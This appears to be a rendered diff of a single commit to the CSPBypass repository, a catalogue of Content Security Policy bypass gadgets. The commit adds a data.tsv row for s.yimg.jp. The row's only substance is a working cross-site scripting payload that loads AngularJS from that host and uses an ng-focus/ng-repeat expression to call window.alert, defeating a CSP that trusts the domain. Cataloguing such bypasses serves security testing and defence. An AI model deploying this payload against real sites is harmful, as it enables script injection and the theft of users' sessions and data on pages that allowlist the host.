

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added yimg.jp

```diff
--- a/data.tsv
+++ b/data.tsv
+row 213: s.yimg.jp | <body ng-app ng-csp><script src="https://s.yimg.jp/images/jpnews/cre/owned_media/v2/js/angular.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
```
